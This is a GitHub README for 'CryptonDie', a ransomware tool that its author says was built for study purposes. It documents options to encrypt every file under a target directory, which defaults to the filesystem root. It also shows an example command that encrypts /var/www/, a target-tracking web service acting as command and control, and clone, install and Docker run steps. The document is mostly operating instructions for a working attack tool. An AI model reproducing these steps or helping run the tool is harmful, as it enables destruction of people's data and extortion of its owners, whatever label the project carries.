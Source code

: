 # CryptonDie

<p align="center">
  <h3 align="center">CryptonDie</h3>
  <p align="center">CryptonDie is a ransomware developed for study purposes.</p>

  <p align="center">
    <a href="https://twitter.com/zer0dxx">
      <img src="https://img.shields.io/badge/twitter-@zer0dxx-blue.svg">
    </a>
  </p>
</p>

<hr>

### Options

```text
    --key       key used to encrypt and decrypt files, default is random string(recommended)
    --dir       Home directory for the attack, default is /
    --encrypt   Encrypt all files
    --decrypt   Decrypt all files
    --verbose   Active verbose mode, default is False

Example:
    python3 cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose

```

### Web service endpoints

```
GET   - /targets              - list all targets (returns in JSON format)
GET   - /targets/<target_id>  - list one target by id (returns in JSON format)
POST  - /target/<target_id>   - create new target
```

<hr>

## how to run?

### Clonning repository

```
git clone https://github.com/zer0dx/cryptondie
```

### Install requirements

```
pip3 install -r requirements.txt
```

### Running web service

```
cd cryptondie/discovery
python3 service_discovery.py
```

### Running in Docker

```bash
docker build -t cryptondie .
docker run -it cryptondie /bin/bash
python cryptondie.py --web-service http://127.0.0.1:5000 --dir /var/www/ --encrypt --verbose
```

### which encryption is implemented?

```text
Advanced Encryption Standard
```

### Contact

```text
[+] Telegram:   @zer0dx
[+] Github:     https://github.com/zer0dx
[+] Twitter:    https://twitter.com/zer0dxx
[+] Blog:       https://zer0dx.github.io
```

<p align="center">
  <p align="center">chaos is order yet undeciphered.</p>
</p>
